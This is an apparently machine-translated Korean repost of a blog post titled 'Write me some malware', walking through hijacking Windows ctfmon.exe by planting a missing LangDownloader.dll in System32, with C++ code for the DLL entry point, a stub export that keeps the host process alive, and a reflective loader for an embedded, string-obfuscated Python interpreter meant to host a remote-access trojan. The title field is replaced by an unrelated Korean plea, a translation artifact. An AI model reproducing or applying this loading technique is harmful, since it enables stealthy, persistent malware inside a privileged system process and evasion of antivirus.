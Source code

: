 ```yaml
---
title: "제발 합법적인 방식으로 지식을 확장하거나 온라인 커뮤니티에서 도움을 받아보는 것을 고려해보세요 안전한 온라인 활동이 중요하며 악의적인 목적으로 행동하는 것은 부디 자제해 주세요 함께 안전한 인터넷 환경을 만들어 나갈 수 있기를 바랍니다"
description: ""
coverImage: "/assets/img/2024-06-19-Writemesomemalware_0.png"
date: 2024-06-19 01:15
ogImage:
  url: /assets/img/2024-06-19-Writemesomemalware_0.png
tag: Tech
originalTitle: "Write me some malware"
link: "https://medium.com/@shaharb02/write-me-some-malware-fbfd131db495"
isUpdated: true
---
```


(연구 목적으로만 사용)

# 이루고 싶은 것:

# 어떻게 로드할 것인가:

Windows에는 ctfmon.exe라는 멋진 프로세스가 있습니다. 이 프로세스를 좋아하는 이유가 몇 가지 있어요.

<div class="content-ad"></div>

![이미지](/assets/img/2024-06-19-Writemesomemalware_0.png)

- 높은 권한에서 실행됩니다.
- 충돌/중단 시 다시 시작하는 서비스가 있습니다.
- 모든 Windows 컴퓨터에서 실행됩니다.

<div class="content-ad"></div>

해당 프로세스 내에서 실행하고 싶긴 한데, 어떻게 해야할지가 문제야.

"virtual alloc — create remote thread" 방법으로 내 자신을 주입할 수 있지만, 안티바이러스들이 이미 알고 있고 그 방법은 너무 2012년식이야. 더 나은 방법을 고민해봐야겠어.

## ctfmon.exe에 로드하는 멋진 방법 찾기

Procmon을 실행하고 ctfmon.exe를 다시 시작해서 무슨 일을 하는지 확인해봐.

<div class="content-ad"></div>

<img src="/assets/img/2024-06-19-Writemesomemalware_1.png" />

음... ctfmon.exe이 LangDownloader.dll이라는 동적 라이브러리를 로드하려고 하는 것 같지만 찾을 수 없네요. 제 컴퓨터에 있는지 확인해보겠습니다.

<img src="/assets/img/2024-06-19-Writemesomemalware_2.png" />

LangDownloader.dll이 없습니다... 하나 만들어 시스템32에 넣어 ctfmon.exe를 다시 시작해보겠습니다.

<div class="content-ad"></div>

```js
BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD  ul_reason_for_call,
    LPVOID lpReserved
)
{
    switch (ul_reason_for_call)
    {

    case DLL_PROCESS_ATTACH:
        {
        MessageBoxA(0, std::to_string(GetCurrentProcessId()).c_str(), 0, 0);
        break;
        }
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

메시지 상자를 표시하지만 ctfmon.exe가 종료됩니다. 무언가 잘못하고 있는 것 같아요 :(

LangDownloader.dll이 어떻게 로드되는지 자세히 파악하여 더 나은 모방을 하고 충돌을 방지하고 싶어요. ctfmon.exe를 좀 더 자세히 살펴보는 것이 가장 좋은 방법인 것 같아요.

![이미지](/assets/img/2024-06-19-Writemesomemalware_3.png)

<div class="content-ad"></div>

이 static imports만 있는 것을 볼 수 있습니다. LangDownloader.dll은 여기 없는데요... 어디서 불러오는 걸까요?

Procmon으로 돌아가보면 무언가를 발견할 수도 있을 거에요

![image](/assets/img/2024-06-19-Writemesomemalware_4.png)

여기 보세요. InputLocaleManager.dll을 불러오고 있네요. 이 파일을 조사해봅시다.

<div class="content-ad"></div>

해당 문자열을 찾았습니다!

![image](/assets/img/2024-06-19-Writemesomemalware_5.png)

여기서 잘 로드되고 있네요. 이제 뭘 할까요?

![image](/assets/img/2024-06-19-Writemesomemalware_6.png)

<div class="content-ad"></div>

한번 확대해볼까요? 저희에게 pdb 파일이 있어요 (:

![image 1](/assets/img/2024-06-19-Writemesomemalware_7.png)

![image 2](/assets/img/2024-06-19-Writemesomemalware_8.png)

이 코드를 한 번 분석해 봐요.

<div class="content-ad"></div>

```js
• LangDownloader.dll을로드하려고 시도합니다.
• 실패하는 경우
  - “종료”로 계속 진행합니다.
• 성공하는 경우
  - LangDownloaderCreate의 주소를 가져오려고 시도합니다.
  - 실패하는 경우
     프로세스 종료
  - 성공하는 경우
     매개변수와 함께 LangDownloaderCreate를 호출합니다
```

지금까지 잘 됐어요. 이것은 왜 ctfmon.exe가 실행할 LangDownloader.dll이라는 임의의 .dll을 제공했을 때 충돌했는지를 설명합니다.

<img src="/assets/img/2024-06-19-Writemesomemalware_9.png" />

우리는 0보다 작고 0x800700E와 다른 숫자를 반환하면 우리는 그냥 계속 진행할 것임을 볼 수 있습니다... 내가 신경 쓰지 않으니까 무한 대기를 해봅시다.

<div class="content-ad"></div>

```js
extern "C" __declspec(dllexport) int LangDownloaderCreate(int a, int b)
{
    // 영원히 기다려요
    HANDLE never_set = CreateEventA(NULL, TRUE, FALSE, NULL);
    WaitForSingleObject(never_set, INFINITE);

    return -1;
}
```

알겠어요!

![이미지](/assets/img/2024-06-19-Writemesomemalware_10.png)

이제 실행 중이니까... 뭘 하고 싶어요?

<div class="content-ad"></div>

# 무엇을 실행할까요:

제 .dll 내부에 인터프리터를 실행하고 싶어요... 파이썬이 어떻게 하는지 살펴봐요

배운 바에 의하면, 파이썬은 python`버전`.dll을 사용해서 모든 파이썬 작업을 처리해요

이 .dll을 멋지게 C++ 인터페이스로 감싸봐요

<div class="content-ad"></div>

```js
class PythonInterpreter
{
public:
    explicit PythonInterpreter();
    ~PythonInterpreter();

    NO_DISCARD void* run_line(const std::string& line);

    // Deleted Functions
    PythonInterpreter(const PythonInterpreter& other) = delete;
    PythonInterpreter(PythonInterpreter&& other) = delete;
    PythonInterpreter& operator=(const PythonInterpreter& other) = delete;
    PythonInterpreter& operator=(PythonInterpreter&& other) = delete;

private:
    using PyObject = int;

    using PyInitializeType = void (*)();
    using PyFinalizeType = void (*)();
    using PyRunSimpleStringType = PyObject * (*)(const char* str);

    // Members
    DynamicLibrary m_python_interpreter_library;
    PyInitializeType m_initialize;
    PyFinalizeType m_finalize;
    PyRunSimpleStringType m_run_simple_string;
};

PythonInterpreter::PythonInterpreter() :
    m_python_interpreter_library(WindowsResource::get_resource(GetModuleHandleA(OBFUSCATE("LangDownloader.dll")),
                                                               IDR_BINARY1,
                                                               OBFUSCATE("Binary"))),
    m_initialize(static_cast<PyInitializeType>(m_python_interpreter_library.get_function(OBFUSCATE("Py_Initialize")))),
    m_finalize(static_cast<PyFinalizeType>(m_python_interpreter_library.get_function(OBFUSCATE("Py_Finalize")))),
    m_run_simple_string(static_cast<PyRunSimpleStringType>(m_python_interpreter_library.get_function(OBFUSCATE("PyRun_SimpleString"))))
{
    m_initialize();
}
```

이제 적절한 파이썬 인터프리터가 준비되어 있으므로, LangDownlder.dll에 통합하여 반사적으로 로드할 수 있습니다.

DynamicLibrary 클래스를 만들어야 합니다.

```js
class DynamicLibrary
{
public:
    explicit DynamicLibrary(ByteSpan library_binary);
    ~DynamicLibrary();

    NO_DISCARD void* get_function(const std::string& function_name);

    // Deleted Functions
    DynamicLibrary(const DynamicLibrary& other) = delete;
    DynamicLibrary(DynamicLibrary&& other) = delete;
    DynamicLibrary& operator=(const DynamicLibrary& other) = delete;
    DynamicLibrary& operator=(DynamicLibrary&& other) = delete;

private:
    NO_DISCARD static HMEMORYMODULE load_library(ByteSpan library_binary);

    // Members
    HMEMORYMODULE m_library_base;
};
```

<div class="content-ad"></div>

이제 ctfmon.exe 내부에 파이썬 인터프리터가 있습니다!

![이미지](/assets/img/2024-06-19-Writemesomemalware_11.png)

정말 멋지죠?

이제 남은 일은 파이썬으로 RAT을 작성하는 것뿐입니다.

<div class="content-ad"></div>

미안해요! 전손을 올립니다(:

![Image](/assets/img/2024-06-19-Writemesomemalware_12.png)
